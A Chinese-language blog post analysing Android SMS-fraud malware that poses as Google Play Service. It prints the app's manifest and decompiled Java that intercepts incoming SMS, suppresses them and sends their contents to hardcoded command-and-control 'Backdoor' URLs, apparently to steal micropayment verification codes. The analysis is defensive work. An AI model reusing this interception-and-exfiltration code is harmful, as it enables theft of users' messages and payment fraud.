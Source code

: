 ```yaml
---
layout: post
title: "小額付費簡訊詐騙"
date: 2013-11-09 12:22
comments: true
categories: android
og:
    image: http://farm3.staticflickr.com/2835/10746549465_c046942cc1.jpg
---
```


最近好像很流行收到這種奇怪的簡訊

<a href="http://www.flickr.com/photos/51077287@N06/10746549465/" title="Flickr 上 sunrisedm4 的 詐騙簡訊"><img src="http://farm3.staticflickr.com/2835/10746549465_c046942cc1.jpg" width="333" height="500" alt="詐騙簡訊"></a>

用 iPhone 點開網址之後發現會被導到一個已經關閉的無名相簿，研究了一下發現他會判斷 `User-Agent` 來決定要導到哪裡，
如果把 `User-Agent` 設成 Android 瀏覽器的話，會被導到一個下載 Andorid apk 的連結

不過大概是新聞報很大的原因，詐騙連結幾乎都已經失效了

把載下來的 apk 拆開會發現它是一個偽裝成 Google Play Service 的程式
（要拆 apk 推薦使用 [androguard](http://code.google.com/p/androguard/) ，它的 Sublime Text plugin 簡直是神器......）

使用到的權限和用到的 components

``` xml AndroidManifest.xml
<?xml version="1.0" ?>
<manifest android:versionCode="1" android:versionName="1.0" package="com.google.android.gmss" xmlns:android="http://schemas.android.com/apk/res/android">
    <uses-sdk android:minSdkVersion="4" android:targetSdkVersion="17"></uses-sdk>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"></uses-permission>
    <uses-permission android:name="android.permission.INTERNET"></uses-permission>
    <uses-permission android:name="android.permission.RECEIVE_SMS"></uses-permission>
    <uses-permission android:name="android.permission.SEND_SMS"></uses-permission>
    <uses-permission android:name="android.permission.WRITE_SMS"></uses-permission>
    <uses-permission android:name="android.permission.READ_SMS"></uses-permission>
    <uses-permission android:name="android.permission.READ_PHONE_STATE"></uses-permission>
    <uses-permission android:name="android.permission.ACCESS_WIFI_STATE"></uses-permission>
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"></uses-permission>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"></uses-permission>
    <uses-permission android:name="android.permission.CALL_PHONE"></uses-permission>
    <uses-permission android:name="android.permission.PROCESS_OUTGOING_CALLS"></uses-permission>
    <application android:allowBackup="true" android:icon="@7F020002" android:label="@7F050000" android:theme="@7F060001">
        <activity android:label="" android:name="com.google.android.gmss.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN">
                </action>
                <category android:name="android.intent.category.LAUNCHER">
                </category>
            </intent-filter>
        </activity>
        <receiver android:name="com.google.android.gmss.BootBroadcastReceiver">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED">
                </action>
            </intent-filter>
        </receiver>
        <service android:exported="true" android:label="@7F050000" android:name="com.google.android.gmss.MouseCave">
        </service>
        <receiver android:name="com.google.android.gmss.MouseEar">
            <intent-filter android:priority="2147483647">
                <action android:name="android.provider.Telephony.SMS_RECEIVED">
                </action>
                <category android:name="android.intent.category.DEFAULT">
                </category>
            </intent-filter>
        </receiver>
        <receiver android:name="com.google.android.gmss.MouseNose">
            <intent-filter>
                <action android:name="android.intent.action.NEW_OUTGOING_CALL">
                </action>
            </intent-filter>
        </receiver>
        <receiver android:name="com.google.android.gmss.BlackCat">
            <intent-filter>
                <action android:name="com.mouse.BlackCat">
                </action>
            </intent-filter>
        </receiver>
    </application>
</manifest>
```

可以看到這個 app 要了一些邪惡的權限，
並且有個 receiver 會偵測 `android.provider.Telephony.SMS_RECEIVED` 這個動作，
在收到簡訊的時候被觸發，是和小額付費比較有相關的地方

``` java me.java
package com.google.android.gmss;
public class MouseEar extends android.content.BroadcastReceiver {
    // ...
            if(v3[v2].getMessageBody().toString().contains("*#060#") == 0) {
                if(com.google.android.gmss.c.a(p8) != 0) {
                    this.abortBroadcast();
                    v1 = new java.util.HashMap();
                    v1.put("type", "1");
                    v1.put("source", v3[v2].getOriginatingAddress().toString());
                    v1.put("content", v3[v2].getMessageBody().toString());
                    new Thread(new com.google.android.gmss.h(this, v1, p8)).start();
                }
            } else {
                this.abortBroadcast();
                v1 = v3[v2].getOriginatingAddress();
                v4 = v3[v2].getMessageBody().substring(6);
                v5 = new java.util.HashMap();
                v5.put("phone_id", v4);
                v5.put("phone_num", v1);
                new Thread(new com.google.android.gmss.g(this, v5, p8)).start();
            }
    // ...
}
```

可以看到在收到新簡訊的時候，會判斷內容有沒有包括特定字串，
有的話就會把整個簡訊內容回傳，如果沒有的話只會回傳前六個字元

再往下追可以找到回報資料的伺服器位置和一些東西，不過當然也失效了

``` java .java
package com.google.android.gmss;
public class l {
    // ...
    static l()
    {
        com.google.android.gmss.l.a = "http://googleapp.leitungsen.de:1652/";
        com.google.android.gmss.l.b = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/submit").toString();
        com.google.android.gmss.l.c = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/deploy_report").toString();
        com.google.android.gmss.l.d = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/task_query").toString();
        com.google.android.gmss.l.e = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/get_blockrules").toString();
        com.google.android.gmss.l.f = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/phones_query").toString();
        com.google.android.gmss.l.g = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/phone_num_submit").toString();
        com.google.android.gmss.l.h = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/get_url").toString();
        com.google.android.gmss.l.i = "c84258e9c39059a89ab77d846ddab909";
        com.google.android.gmss.l.j = new java.util.ArrayList();
        return;
    }
    // ...
}
```

裝了惡意程式之後會莫名其妙的被盜用小額付費的原因，
我**猜**應該是小額付費的認證簡訊會包含特定內容，把整封簡訊回傳是為了要拿到小額付費的認證碼，
如果不是小額付費的簡訊，這隻惡意程式會回傳前六個字元的原因，
我**猜**可能是覺得簡訊一開頭很有可能有人名吧，
一但拿到人名 + 電話，就又多了一個詐騙的目標......

